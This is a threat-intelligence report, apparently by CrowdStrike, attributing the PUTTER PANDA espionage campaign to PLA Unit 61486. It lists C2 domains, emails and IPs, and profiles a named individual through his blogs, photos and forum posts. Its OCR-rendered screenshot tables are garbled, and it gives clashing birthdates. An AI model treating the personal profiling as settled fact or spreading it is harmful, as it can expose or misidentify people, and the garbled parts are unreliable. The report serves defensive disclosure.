


# CrowdStrike Intelligence


### CROWDSTRIKE GLOBAL INTELLIGENCE TEAM

This report is part of the series of technical and strategic reporting available to CrowdStrike Intelligence subscribers. It is being released publicly to expose a previously undisclosed PLA unit involved in cyberespionage against Western technology companies.


In May 2014, the U.S. Department of Justice charged five Chinese nationals for economic espionage against U.S. corporations. The five known state actors are officers in Unit 61398 of the Chinese People's Liberation Army (PLA). In response, the Chinese government stated that the claims were "absurd" and based on "fabricated facts". China then went even further, stating "The Chinese government, the Chinese military and their relevant personnel have never engaged or participated in cyber theft of trade secrets."

We believe that organizations, be they governments or corporations, global or domestic, must keep up the pressure and hold China accountable until lasting change is achieved. Not only did the U.S. Government offer in its criminal indictment the foundation of evidence designed to prove China's culpability in electronic espionage, but also illustrated that the charges are only the tip of a very large iceberg. Those reading the indictment should not conclude that the People's Republic of China (PRC) hacking campaign is limited to five soldiers in one military unit, or that they solely target the United States government and corporations. Rather, China's decade-long economic espionage campaign is massive and unrelenting. Through widespread espionage campaigns, Chinese threat actors are targeting companies and governments in every part of the globe.

At CrowdStrike, we see evidence of this activity first-hand as our services team conducts Incident Response investigations and responds to security breaches at some of the largest organizations around the world. We have first-hand insight into the billions of dollars of intellectual property systematically leaving many of the largest corporations - often times unbeknownst to their executives and boards of directors.

The campaign that is the subject of this report further points to espionage activity outside of Unit 61398, and reveals the activities of Unit 61486. Unit 61486 is the 12th Bureau of the PLA's 3rd General Staff Department (GSD) and is headquartered in Shanghai, China. The CrowdStrike Intelligence team has been tracking this particular unit since 2012, under the codename PUTTER PANDA, and has documented activity dating back to 2007. The report identifies Chen Ping, aka cpyy, and the primary location of Unit 61486.

This particular unit is believed to hack into victim companies throughout the world in order to steal corporate trade secrets, primarily relating to the satellite, aerospace and communication industries. With revenues totaling $189.2 billion in 2013, the satellite industry is a prime target for espionage campaigns that result in the theft of high-stakes intellectual property. While the gains from electronic theft are hard to quantify, stolen information undoubtedly results in an improved competitive edge, reduced research and development timetables, and insight into strategy and vulnerabilities of the targeted organization.

Parts of the PUTTER PANDA toolset and tradecraft have been previously documented, both by CrowdStrike, and in open source, where they are referred to as the MSUpdater group. This report contains details on the tactics, tools, and techniques used by PUTTER PANDA, and provides indicators and signatures that can be leveraged by organizations to protect themselves against this activity. Our Global Intelligence Team actively tracks and reports on more than 70 espionage groups, approximately half of which operate out of China and are believed to be tied to the Chinese government. This report is part of our extensive intelligence library and was made available to our intelligence subscribers in April 2014, prior to the US Government's criminal indictment and China's subsequent refusal to engage in a constructive dialog.

Targeted economic espionage campaigns compromise technological advantage, diminish global competition, and ultimately have no geographic borders. We believe the U.S. Government indictments and global acknowledgment and awareness are important steps in the right direction. In support of these efforts, we are making this report available to the public to continue the dialog around this ever-present threat.

George Kurtz President/CEO & Co-Founder, CrowdStrike


#### Table of Contents:

| EXECUTIVE SUMMARY |
| --- |
| Key Findings . |
| ATTRIBUTION. |
| C2 INDICATORS. |
| Targeting |
| Connections to Other Adversary Groups. |
| "СРҮҮ" |
| 711 Network Security Team. |
| Military Connections . |
| UNT 61486 |
| BINARY INDICATORS |
| CONCLUSIONS |
| TECHNICAL ANALYSIS . |
| 3PARA RAT |
| PNGDOWNER |
| HTTPCLIENT . |
| DROPPERS - RC4 AND XOR BASED . |
| MITIGATION & REMEDIATION |
| REGISTRY ARTIFACIS . |
| FILE SYSTEM ARTIFACTS |
| HOST INDICATORS… |
| YARA Rules . |
| NETWORK SIGNATURES . |
| SNORT RULES |
| TIPS . |
| CONCLUSION |
| APPENDIX 1: 4H RAT SAMPLE METADATA |
| APPENDIX 2: 3PARA RAT SAMPLE METADATA |
| APPENDIX 3: PNGDOWNER SAMPLE METADATA. |
| APPENDIX 4: HTTPCLIENT SAMPLE METADATA |
| CROWDSTRIKE FALCON INTELLIGENCE |
| CROWDSTRIKE FALCON . |
| ABOUT CROWDSTRIKE |


## Executive Summary


### EXECUTIVE SUMMARY

CrowdStrike has been tracking the activity of a cyber espionage group operating out of Shanghai, China, with connections to the People's Liberation Army Third General Staff Department (GSD) 12th Bureau Military Unit Cover Designator (MUCD) 61486, since 2012. The attribution provided in this report points to Chen Ping, aka cpyy (born on May 29, 1979), as an individual responsible for the domain registration for the Command and Control (C2) of PUTTER PANDA malware. In addition to cpyy, the report identifies the primary location of Unit 61486.

PUTTER PANDA is a determined adversary group, conducting intelligence-gathering operations targeting the Government, Defense, Research, and Technology sectors in the United States, with specific targeting of the US Defense and European satellite and aerospace industries. The PLA's GSD Third Department is generally acknowledged to be China's premier Signals Intelligence (SIGINT) collection and analysis agency, and the 12th Bureau Unit 61486, headquartered in Shanghai, supports China's space surveillance network.

Domains registered by Chen Ping were used to control PUTTER PANDA malware. These domains were registered to an address corresponding to the physical location of the Shanghai headquarters of 12th Bureau, specifically Unit 61486. The report illuminates a wide set of tools in use by the actors, including several Remote Access Tools (RATs). The RATs are used by the PUTTER PANDA actors to conduct intelligence-gathering operations with a significant focus on the space technology sector.

This toolset provides a wide degree of control over a victim system and can provide the opportunity to deploy additional tools at will. They focus their exploits against popular productivity applications such as Adobe Reader and Microsoft Office to deploy custom malware through taraeted email attacks.

This report contains additional details on the tactics, tools, and techniques used by PUTTER PANDA, and provides indicators and signatures that can be leveraged by organizations to protect themselves against this activity.


#### KEY FINDINGS

- → Putter Panda is a cyber espionage actor that conducts operations from Shanahai, China, likely on behalf of the Chinese People's Liberation Army (PLA) 3rd General Staff Department 12th Bureau Unit 61486. This unit is supports the space based signals intelligence (SIGINT) mission.
- → The 12th Bureau Unit 61486, headquartered in Shanghai, is widely accepted to be China's primary SIGINT collection and analysis agency, supporting China´s space surveillance network.
- → This is a determined adversary group, conducting intelligencegathering operations targeting the Government, Defense, Research, and Technology sectors in the United States, with specific targeting of space, aerospace, and communications.
- → The group has been operating since at least 2007 and has been observed heavily targeting the US Defense and European satellite and aerospace industries.
- → They focus their exploits against popular productivity applications such as Adobe Reader and Microsoft Office to deploy custom malware through targeted email attacks.
- → CrowdStrike identified Chen Ping, aka cpyy, a suspected member of the PLA responsible for procurement of the domains associated with operations conducted by Putter Panda.
- → There is infrastructure overlap with Comment Panda, and evidence of interaction between actors tied to both groups.


#### ATTRIBUTION

There are several pieces of evidence to indicate that the activity tracked by CrowdStrike as PUTTER PANDA is attributable to a set of actors based in China, operating on behalf of the Chinese People's Liberation Army (PLA). Specifically, an actor known as cpyy (Chen Ping) appears to have been involved in a number of historical PUTTER PANDA campaigns, during which time he was likely working in Shanghai within the 12th Bureau, 3rd General Staff Department (GSD). PUTTER PANDA has several connections to actors and infrastructure tied to COMMENT PANDA, a group previously attributed to Unit 61398 of the PLA.


| C2 DOMAIN | REGISTRANT EMAIL ADDRESS |
| --- | --- |
| hgcurtain.com | andre.poli@gmail.com |
| cultivr.com | beth.purcell@gmail.com |
| tensins.net | burnyice@163.com |
| decipherment.net | charles.kenta@gmail.com |
| konamidata.com | charles.kenta@gmail.com |
| cbssrayli.com | chenhaiwei1977@163.com |
| windowsupdote.net | cl flywind@sohu.com |
| ctable.org | cpyy.chen@gmail.com |
| gamemuster.com | cpyy.chen@gmail.com |
| kyoceras.net | cpyy.chen@gmail.com |
| nestlere.com | cpyy.chen@gmail.com |
| raylitoday.com | cpyy.chen@gmail.com |
| renewgis.com | cpyy.chen@gmail.com |
| siseau.com | cpyy@qq.com |
| bmwauto.org | cpyy@sina.com |
| t008.net | cpyy@sina.com |
| vssigma.com | cpyy@sina.com |
| hfmforum.com | duck.pato7@yahoo.com |
| checalla.com | httpchen@gmail.com |
| unina2.net | Mark.Watt@outlook.com |
| anyoffice.info | mike.johnson_mj@yahoo.com |
| it-bar.net | mike.johnson_mj@yahoo.com |
| jj-desk.com | mike.johnson_mj@yahoo.com |
| satelliteclub.info | mike.johnson_mj@yahoo.com |
| space-today.info | mike.johnson_mj@yahoo.com |
| sst1.info | mike.johnson_mj@yahoo.com |
| stream-media.net | mike.johnson_mj@yahoo.com |
| adomhn.com | msarin51@yahoo.com |
| psactel.com | paul_clifford@gmail.com |
| eldaedu.us | piercec34@gmail.com |
| namcodat.com | piercec34@gmail.com |
| ptkstore.com | steven.will@sohu.com |
| graceland-siu.org | Timothy. George@yahoo.com |
| xafsl5.org | usadoggie@163.com |
| feiloglobe.com | yangping2598@163.com |
| creativezh.com | zhxdemama1983@163.com |
| anfoundation.us | From 2010: van.dehaim@gmail.com |
| rwchateau.com | From 2010: van.dehaim@gmail.com |

### C2 INDICATORS

Although some of the domains used for command and control of the tools described later in this report appear to be legitimate sites that have been compromised in some way, many of them appear to have been originally registered by the operators. Table 1 shows the domains that appear to have been registered by these actors, and the original email address used where known.

#### Table 1. C2 Domains and Original Registrant Email Addresses


### C2 INDICATORS (CONT'D)

The most significant finding is that an actor known as cpyy appears to have registered a significant number of C2 domains. This actor is discussed in the next section.

Many of the domains have had their registrant information changed, likely in an attempt to obfuscate the identity of the operators. For instance, several domains originally registered by coyy had their email address updated to van.dehaim@gmail.com around the end of 2009; for siseau.com the change occurred between July 2009 and November 2009, and for vssigma.com, the change occurred between August 2009 and December 2009. Historical registrant information for anfoundation.us, rwchateau.com, and succourtion.org was not available prior to 2010, but it is likely that these domains were also originally registered to a personally attributable email account.

| DOMAIN NAME | UPDATED EMAIL ADDRESS |
| --- | --- |
| anyoffice.info | mike.jj@yahoo.com |
| it-bar.net | mike.johnharhfhg@yahoo.com |
| jj-desk.com | mike.johnson435355@yahoo.com |
| satelliteclub.info | mikeson.jack@yahoo.com |
| space-today.info | mike.johnson.mike.johnson@yahoo.com |
| sst1.info | johnson.mike@yahoo.com |
| stream-media.net | mike.j546456@yahoo.com |
| webfilestore.net | mike6456546456@yahoo.com |

Table 2. New Registrant Email Addresses for Domains Original-Iv Reaistered to mike.johnson_mj@ yahoo.com

Similarly, several domains registered to mike.johnson_mj@yahoo.com have had their registrant email updated during March 2014 (see Table 2).

These registrant changes may indicate an increased awareness of operational security (OPSEC) from the PUTTER PANDA actors. The recent changes to the domains shown in Table 2 may indicate that the operators are preparing new campaigns that make use of this infrastructure, or they are attempting to disassociate all these

Although no attributable information was found on the email addresses associated with the domains described above (aside from cpyy and httpchen – see below),

several other domains were found to have been registered by some of these addresses. These are shown in Table 3, and may be used for command and control of PUTTER PANDA tools. domains from a single email address, perhaps due to OPSEC concerns or issues with the specific email account.


| EMAIL ADDRESS | ASSOCIATED DOMAINS |
| --- | --- |
| msarin51@yahoo.com | adomhn.com |
|  | rfjkos.com |
| cl_flywind@sohu.com | mcclub.com.cn |
|  | windowsdate.net |
|  | windowsupdote.net |
| usadoggie@163.com | 1ondon2012.com |
|  | arianespaces.com |
|  | igarss20l3.org |
|  | igarssl2.org |
|  | xafsl5.org |
| cpyy@qq.com | arinwd.com |
|  | ccpromote.com |
|  | crrmnet.com |
|  | daboren.com |
|  | delioffice.com |
|  | maplever.com |
|  | nikonfe.com |
|  | puttyer.com |
|  | sbassak.com |
|  | shecalla.com |
|  | siseau.com |
|  | vdnsz.com |
| mike.johnson_mj@yahoo.com | anyoffice.info |
|  | it-bar.net |
|  | jj-desk.com |
|  | satelliteclub.info |
|  | space-today.info |
|  | sst1.info |
|  | stream-media.net |
|  | webfilestore.net |
| duck.pato7@yahoo.com | chefcookte.com |
|  | facialcer.com |
|  | fbacoustics.com |
|  | hfmforum.com |
| cpyy.chen@gmail.com | cpyy.net |
|  | ctable.org |
|  | gamemuster.com |
|  | kyoceras.net |
|  | multikiller.com |
|  | nestlere.com |
|  | orlandosv.com |
|  | privacyus.com |
|  | raylitoday.com |
|  | renewgis.com |
|  | signalfcc.com |

## C2 INDICATORS

#### TARGETING

The subdomains associated with these domains via DNS records, along with some of the domain names themselves, point to some areas of interest for the PUTTER PANDA operators (see also Droppers in the following Technical Analysis section):

- · Space, satellite, and remote sensing technology (particularly within Europe);
- · Aerospace, especially European aerospace companies;
- · Japanese and European telecommunications. It is likely that PUTTER PANDA will continue to attack targets of this nature in future intelligencegathering operations.

Table 3. Domains Associated with Registrant Emails Found in PUTTER PANDA C2 Domains


### C2 INDICATORS (CONT'D)

#### CONNECTIONS TO OTHER ADVERSARY GROUPS


#### COMMENT PANDA

Based on passive DNS records, several PUTTER PANDA associated domains have resolved to IP address 100.42.216.230:

- news.decipherment.net
- · res.decipherment.net
- · spacenews.botanict.com
- · spot.decipherment.net

Additionally, several subdomains of ujheadph.com resolved to this IP:

- · chs.uiheadph.com
- imageone.ujheadph.com
- img.ujheadph.com
- klcg.ujheadph.com
- naimap.ujheadph.com
- neo.ujheadph.com
- newspace.uiheadph.com
- pasco.ujheadph.com

Another subdomain of ujheadph.com has been observed² in connection with distinctive traffic originating from the 3PARA RAT (described below), making it probable that this domain is also associated with PUTTER PANDA.

The decipherment.net domains resolved to this IP address from 11 October 2012 to at least 25 February 2013, and the botanict.com domain resolved from 11 October 2012 to 24 March 2013.

During part of this timeframe (30 June 2012 - 30 October 2012), a domain associated with COMMENT PANDA resolved to this same IP address: login. aolon Iine.com. Additionally, for a brief period in April 2012, update8.firefoxupdata.com also resolved to this IP address.

The use of the same IP address during the same time suggests that there is perhaps some cooperation or shared resources between COMMENT PANDA and PUTTER PANDA.


#### VIXEN PANDA

Although not as conclusive as the links to COMMENT PANDA, IP address 31.170.110.163 was associated with VIXEN PANDA domain blog.

strancorproduct.info from November to December 2013. In February 2014, this IP address was also associated with PUTTER PANDA domain ske.hfmforum. com. While not directly overlapping, this potential infrastructure link is interesting, as VIXEN PANDA has previously displayed TTPs similar to COMMENT PANDA (other CrowdStrike reporting describes VIXEN PANDA malware that extracts C2 commands embedded between delimiters in web content), and has extensively targeted European entities.

2See  php%3Fid%3D9771458+&cd=2&hl=en&ct=clnk&gl=uk


#### "СРҮҮ"

Several email addresses have been associated with cpyy, who also appears to use the alternate handles cpiyy and cpyy.chen:

- cpyy@sina.com
- cpyy@hotmail.com
- cpyy.chen@gmail.com
- · сруу@сруу.net

The cpyy.net domain lists "Chen Ping" as the registrant name, which may be cpyy's real name, as this correlates with the initials "cp" in "cpyy". A personal blog for cpyy was found at  The profile on this blog (shown in Figure 2 below) indicates that the user is male, was born on 25 May 1979, and works for the "military/police" (其他- 军人/警察).

|  | 製天 | 思念的角度 |  |  |
| --- | --- | --- | --- | --- |
| 省页 | 日美 相册 | 营乐 收藏 博友 关于排 |  |  |
| cpyy的个人资料 |  |  |  |  |
|  | сруу 博客等级   我分 369 |  |  | Figure 2. сруу Personal Blog on |
|  | 基本资料 |  |  | 163.com |
|  | 明 称 | сруу |  |  |
|  | 性 别; | 물 |  |  |
|  | 生 日: | 05-24 在明四川甘元 双子座 未年 |  |  |
| ● 发消息 ■ 品品 | 故 81 | 云南流 书画市 |  |  |
| 外加面左 群 关注出 | 我厨住地: | 三直线 器用市 |  |  |
| ● 适应设施 | 自我介绍: |  | 氧循的人信鼎牺牲,常識的人情得超碰。对不爱自己的人,最重要的是理解。法审和孩福。过多的自作多情是在艺术对方的领 食。爱与就爱,那是让人卑福的事情。不要让这些变成项图。既然你们已经轻朋了,多年以后,那只想起,希望都是美好的回忆。 |  |
| 注册时间 2006-12-30 静迁建新 2008-03-22 12:30 |  |  | 活的自信垫,开心些,把暴,和竹筒笑留给伤你最束的人,聪明的人知通自己更快乐。他关去的是一个爱他的人,而你美去了一个不 |  |
| 最后登录 2011-11-30 14:53 |  |  | 至你的人,却得到了一个重新生活、重精去受的机会。请你三层呼吸。一生的路上海声了受的花瓣,总有那么一分属于你,花儿晶 |  |
|  |  | 多,却没有重要的一只,这是生生世世早已经注定的。 |  |  |
| · 个人资料 | 个人信息 |  |  |  |
| · 剧音 |  |  |  |  |
| ( ) 评论 | 面积状况; | 01.0 |  |  |
| · 最近访客 | 185 - 475 | 其他-家人假型 |  |  |
|  | 性指特点 |  | 公司,由面,通道。原太,流量,重生,面往也需,乐三达度,同城空部,放置大气,通钢处于,就有正义,熟心助人,简称人文, |  |
|  |  | 瑞ARE,和安可影,植力在路 |  |  |
|  | 月薪资好 |  | 时间,就是,也是,面压、体重,通常,交友,文艺,之才,放到,回的,上回,请是,通车 |  |
|  | 个人经历 |  |  |  |
|  | 联系方式 |  |  |  |


### "CPYY" (CONT'D)

This blog contains two postings in the "IT" category that indicate at least a passing interest in the topics of networking and programming. A related CSDN profile for user cpiyy indicates that cpyy was working on or studying these topics in 2002 and 2003³.

Another personal blog for cpyy ( appears to have last been updated in 2007. This states that the user lives in Shanghai, and has a birthdate identical to that in the 163.com blog.

cpyy was also active on a social networking site called XCar, stating that he lived in Shanghai as early as 2005 through 2007; he said in a post, "Soldier's duty is to defend the country, as long as our country is safe, our military is excellent"4 , indicating a feeling of patriotism that could be consistent with someone who chose a military or police-based career.

|  | сруу |  |  |
| --- | --- | --- | --- |
|  | 原、上班出席、世界的外国国际科、官方市 |  |  |
|  | MINTERE |  |  |
|  | 地方面 【发布】 工程的 加光生 421话 世界 |  |  |
| 位 首页 | 他发表的帖子 |  |  |
| 图 特于(12) | 主播帖子 | 点击 回复 颜块 | 时间 |
| (公 相关 | 泉有在此龄发表过帖子。 |  |  |
| 图 模型(1) |  |  |  |
| 1.1 0 m |  |  | 中十一 四十八一日 |
| 图 明 | 剧版帖子 | 点击 回复 原块 | 时间 |
| 图 战情 | 没有在此解发表过帖子。 |  |  |
| ■ 天津市 |  |  |  |
| 精 蓝水 |  |  | F-L 一 F-J   L = R   F- D   L   2   1   L   2 |
| ◆ 版用 | MOTIM 子 | 原型 加盟 麻贝 | 时间 |
| 玩体平假 | 设有着武新发展过帖子, |  |  |
| (4) F. LIN + 11 serie = 00 |  |  | 第四 上一篇《下一篇 |
| 更高提装 | 他困复的帖子 |  |  |
|  | 王静回帖 | ■庚 点击 同質量 | 时间 |
|  | · re: [评论随笔]强烈要求重要论史的和候班门下日1 | 24012 POUNT | 看看论史 2007-04-18 |
|  | + rs:雕送隔易 【夜景哪光计算尺】想要的摄友留个图 | 152:30 430 | 天直播挂 2006-11-29 |
|  |  |  | F-1 1-5-1 1-- R |
|  | 图片图片 | 点击 回复 原块 | 时间 |
|  | 应有在此断发表过帖子。 |  |  |

Figure 3. cpyy Personal Blog on tianya.cn

3See postings:  net/users/cpiyy/topics 4hxxp://www.xcar.com. cn/bbs/viewthread. php?tid=7635725&page=6


### "CPYY" (CONT'D)

On the XCar forum, cpyy.chen used a subforum called POLO (hacker slang for "Volkswagen cars") to communicate with other users Linxder, peggycat, "Naturally do not understand romance" (天生不懂浪漫), "a wolf"(一只大灰狼),"large tile"(大瓦片),"winter"( 冬夜), "chunni" (春妮), papaya, kukuhaha, Cranbing, "dusty sub" (多尘子), z11829, "ice star harbor" (冰星港), "polytechnic Aberdeen" (理工仔), "I love pineapple pie" (我爱菠罗派), and "she's distant" in 2007. Although superficially the discussion is about cars, there is a repeated word in the text, "milk yellow package" or "custard package" or "yoke package" (奶黄包). This could be a hacker slang word, but it is unclear as to the definition. The conversation alludes to Linxder being the "teacher" or "landlord" and the other aforementioned users are his "students". Linxder references how he has "found jobs" for them. It is possible that this is a reference to hacking jobs wrapped up in car metaphors.

Linxder is the handle of an actor associated with the likely Shanghai-based COMMENT PANDA group® . Linxder, cpyy, and xiaobai have all discussed programming and security related topics on cpvv´s site. cpyy.org6 , which hosted a discussion forum for the 711 Network Security Team (see below).

cpyy also appears to have a keen interest in photography; his 163.com blog includes several photographs taken by cpyy in the blog postings and albums section. Some of these photographs also appear in a Picasa site' (examples are shown in Figures 5 and 6) belonging to a user cpyy.chen.

An album in this site named "me" has several shots of what is likely cpyy himself, from 2005, 2006, and 2007. shown to the right:


Figure 4. cpyy.chen, from 2005, 2006, and 2007 (left to right)


### "CPYY" (CONT'D)

An account on rootkit.com, a popular low-level software security site, existed for user cpyy and was accessed in at least May 2004. This account was registered with primary email address cpyy@cpyy.net and backup email address cpyy@hotmail.com; it listed a date of birth as 24 May 1979, consistent with cpyy´s other profiles. The IP address 218.242.252.214 was associated with this account; it is owned by the Oriental Cable Network Co., Ltd., an ISP located in Shanghai. Registration on this forum shows that cpyy had an interest in security-related programming topics, which is backed up by the postings on his personal blog and CSDN account.


Figure 6. Example Photograph from 163.com Blog

Figure 5. Sample Photograph from cpyy.chen's Picasa Albums


### "CPYY" (CONT'D)

#### 711 NETWORK SECURITY TEAM

One of the sites registered to cpyy was used to host a web-based email service, along with a forum on www. cpyy.net. Both of these services were apparently run by the 711 Network Security Team (711网络安全小组), a group that is now likely defunct, but has previously published security-based articles that have been re-posted on popular Chinese hacking sites such as xfocus.netf.

| 饮水思源 - 文章阅读 [讨论区: tabletennis] |  |
| --- | --- |
| 【转器/推荐】【转贴】【线改】【设置可RE属性 IL -- 篇】【返回讨论区】【下一篇】【回文章】【同主题到表】【同主题阅读】【从这里展开 |  |
| 发信人:httpchen(chen),信区:tabletennis |  |
| 标 题:[闵行球友]httpchen |  |
| 发信站:饮水思源(2007年09月28日09:41:54 星期五) |  |
| 请确认标题为:[闵行/徐汇/校外球友]ID |  |
| ID: httpchen |  |
| 姓名:陈凌 |  |
|  | 性别:男 |
| 所在校区:闵行 |  |
| 所用球拍:直板,(STIGA)Clipper Wood (CL),正面狂三,反面RITC 799-1生胶囊胶 |  |
| 打法:直板弧圈讲攻刷 |  |
| 联系方式:httpchen@gnail.com |  |
| 最佳联系时间:晚上6:00~9:00 |  |
| 一般打球时间:周一~周四晚上 |  |
| 平不高,不求胜负,但求一身臭汗 |  |
| Figure 7. httpchen |  |
| cn · [FROM: 58. 196. 156. 15] | Posting on SJTU |
| 日17:27:49 修改本文 · [FROM: 58. 196. 15] | "GRATEFUL" BBS |

One of these articles, entitled "IMD-based packet filtering firewall to achieve the principles", is apparently authored by xiaobai, with email address xiaobai@openfind.com.cn; it was published on the "GRATEFUL" (饮水思源) security digest list10 that is hosted by Shanghai Jiao Tong University (SJTU). This digest list/bulletin board was also frequented by ClassicWind, an actor possibly linked to the Shanghai-based, PLA-sponsored adversary group COMMENT PANDA, as described in. This Tipper also indicates that "the Chinese Communist Party (CCP) and the People's Liberation Army (PLA) aggressively target SJTU and its School of Information Security Engineering (SISE) as a source of research and student recruitment to conduct network offense and defense campaigns", so it is possible that the 711 Network Security Team members came to the attention of the Chinese state via this institution.

An additional connection to SJTU comes from

a C2 domain, checalla.com, used with the 4H RAT in 2008. This domain was registered to httpchen@gmail. com at the time, and this address was also used to make a posting on the GRATEFUL BBS (shown in Figure 7). The posting indicates that httpchen is located at the 闵行 (Minhang) campus of SJTU and was posting using IP address 58.196.156.15, which is associated with the China Education and Research Network (CERNET), a nationwide network managed by the Chinese Ministry of Education. It also states that httpchen is studying at the school of Information Security Engineering within SJTU.

8For example, hxxp://www.xfocus.net/articles/200307/568.html

This article also lists  as the original source site, although no archived content could be recovered for this. "See  3/Security/D44039356/D69C6D2AC/D4C1 IF438/D6DB67E4E/DA69FF663/ M.1052844461.A.html


#### "CPYY" (CONT'D)

#### MILITARY CONNECTIONS

Several pieces of evidence indicate that cpyy probably has connections to, or is part of, the Chinese military – specifically the PLA Army. In addition to his declaration on his personal blog that he works for the "military/ police", and contacts with actors such as Linxder that have been previously associated with hacking units within the PLA, cpyy´s Picasa site contains several photographs that hint at military connections.


First, a monochrome picture from the 大学时代("college") album posted in February 2007 shows several uniformed individuals:

It is not clear whether this picture includes cpyy, or just friends/ associates/relatives.

A picture from the 中学时代 ("high school") album posted in February 2007 shows a male – likely cpyy based on the clothing shown in the second picture, which matches the pictures of cpyy shown above – performing exercise in front of a group of likely soldiers and an officer:


Although somewhat unclear, pictures from the album 2002年的生日 ("2002 birthday"), also posted in February 2007, show the celebrant (likely cpyy) in khaki clothes that are possibly military wear.


The most compelling pictures, however, are found in the 宿舍 and 办公室 albums ("dormitory" and "office"). A shot of probably cpyy´s dormitory room shows in the background two military hats that appear to be Type 07 PLA Army officer peak hats:


This album also contains a shot of the exterior of a building with several large satellite dishes outside:


This same building and the satellite dishes also appear in the "office" album. The reflection effects observed on the windows of this building could be due to coatings applied to resist eavesdropping via laser microphones and to increase privacy, which would be consistent with a military installation conducting sensitive work.

CROWDSTRIKE


Above is an image from the same album of what appears to be a larger dish, in front of the Oriental Pearl Tower, a significant landmark in Shanghai:

#### UNIT 61486

As mentioned above, checalla.com was used for command and control with the PUTTER PANDA 4H RAT in 2008. This domain was registered to httpchen@gmail.com, and in May 2009 the domain registration details were updated to include a Registrant Address of "shanghai yuexiulu 46 45 202#". A search for this location reveals an area of Shanghai shown in Figure 81² .

Figure 9 shows an enlargement of satellite imagery from within this area, depicting a facility containing several satellite dishes within green areas, sports courts and a large office building.

1ºSource:  +121%C2%B027'18.7%22E/@31.2882939,121.4554673,058m/ data=!3m1!1e3!4m2!3m1!1s0x0:0x0





Satellite imagery from 2009 showing another aspect of this office building, along with a likely vantage point and direction of camera, alongside probably cpyy´s photograph from the same angle, is shown in Figure 10:


Based on the Shanghai location, and common features, it is highly likely that the location shown above is the same as that photographed by cpyy and shown in the "office" and "dormitory" albums. Further confirmation can be found from photos uploaded by a user on Panoramio'3 who tags the image as being located in Chabei¹4 , Shanghai, China (31° 17′ 18.86″ N 121° 27′ 9.83″ E). This image is exceptionally similar to building shown in cpyy's "office" album (see Figure 11 below).

13 14Alternately Romanized as Zhabei


According to a public report16 on the Chinese PLA's General Staff Department (GSD), the 12th Bureau of the 3rd GSD is headquartered in the Zhabei district of Shanghai and "appears to have a functional mission involving satellites, likely inclusive of intercept of satellite communications and possibly space-based SIGINT collection ". The same report also lists a Military Unit Cover Designator (MUCD) of 61486 for this bureau.

A webpage™ published on a Chinese government site detailing theatrical performances involving members of the PLA lists an address of "闸北区粤秀路46号" (46 Yue Xiu Road, Zhabei District) for "总参61486部队" (61486 Forces General Staff). A search for this location shows an identical area to that shown in Figure 8.

It can therefore be concluded with high confidence that the location shown in cpyy´s imagery, along with the satellite images above, is the headquarters of the 12th Bureau, 3rd GSD, Chinese PLA – also known as Unit 61486. This unit's suspected involvement in "space surveillance"" and "intercept of satellite communications" fits with their observed targeting preferences for Western companies producing technologies in the space and imaging/remote sensing sectors. The size and number of dishes present in the area is also consistent with these activities.

15 third department sigint cyber stokes lin hsiao.pdf 16 17 electronic intelligence elint satellite developments easton stokes.pdf


#### BINARY INDICATORS

Observed build times for the PUTTER PANDA tools described in this report range from 2007 to late 2013, indicating that the actors have conducted several campaigns against their objectives over a period of several years. A build time analysis of all known samples is shown in Figure 1 below, relative to China time.


Although this shows that there is some bias in the build time distribution to daylight or working hours in China, which is more significant if a possible three-shift system of hours is considered (0900-1200, 1400-1700, and 2000-2300), this evidence is not conclusive. There is also some evidence that build times are manipulated by the adversary; for example, the sample with MD5 hash bc4e9dad71b844dd3233cfbbb96c1 bd3 has a build time of 18 July 2013, but was supposedly first submitted to VirusTotal on 9 January 2013. This shows that the attackers – at least in 2013 – were aware of some operational security considerations and were likely taking deliberate steps to hide their origins.


### CONCLUSIONS

